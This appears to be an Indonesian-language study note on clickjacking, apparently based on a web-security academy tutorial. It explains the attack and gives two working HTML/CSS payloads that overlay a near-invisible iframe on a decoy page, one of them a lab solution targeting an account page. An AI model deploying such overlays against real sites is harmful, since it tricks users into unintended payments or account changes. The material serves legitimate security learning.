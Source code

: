 
## Apa itu clickjacking?

Clickjacking adalah serangan berbasis antarmuka di mana pengguna ditipu untuk mengeklik konten yang dapat ditindaklanjuti di situs web tersembunyi dengan mengeklik beberapa konten lain di situs web umpan. Perhatikan contoh berikut:

Seorang pengguna web mengakses situs web umpan (mungkin ini adalah tautan yang disediakan melalui email) dan mengklik tombol untuk memenangkan hadiah. Tanpa sadar, mereka telah ditipu oleh penyerang untuk menekan tombol alternatif yang tersembunyi dan ini mengakibatkan pembayaran akun di situs lain. Ini adalah contoh serangan clickjacking. Teknik ini bergantung pada penggabungan halaman web yang tidak terlihat dan dapat ditindaklanjuti (atau beberapa halaman) yang berisi tombol atau tautan tersembunyi, misalnya, dalam iframe. Iframe dihamparkan di atas konten halaman web umpan yang diantisipasi pengguna. Serangan ini berbeda dari serangan CSRF di mana pengguna diharuskan melakukan tindakan seperti mengklik tombol sedangkan serangan CSRF bergantung pada pemalsuan seluruh permintaan tanpa sepengetahuan atau masukan pengguna.![[clickjacking-infographic.svg]]

## Bagaimana membangun serangan dasar clickjacking

Serangan clickjacking menggunakan CSS untuk membuat dan memanipulasi lapisan. Penyerang memasukkan situs web target sebagai lapisan iframe yang dilapiskan pada situs web umpan. Contoh penggunaan tag style dan parameternya adalah sebagai berikut:

```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 128px;
      height: 128px;
      opacity: 0.00001;
      z-index: 2;
    }

    #decoy_website {
      position: absolute;
      width: 300px;
      height: 400px;
      z-index: 1;
    }
  </style>
</head>

<body>
  <div id="decoy_website">
    ...decoy web content here...
  </div>

  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```

## Lab: Basic clickjacking with CSRF token protection

```html
<head>
   <style>
      iframe {
       position:relative;
       width:700px;
       height:600px;
       opacity:0.1;
       z-index:2;
      }
      div {
       position:absolute;
       z-index:1;
       top:500px;
       left:50px;
      }
   </style>
</head>
<body>
   <div>
      CLICK HERE
   </div>
   <iframe src="0a0d001804f0d0f9804a67f800ef0002.web-security-academy.net/my-account">
   </iframe>
</body>
```


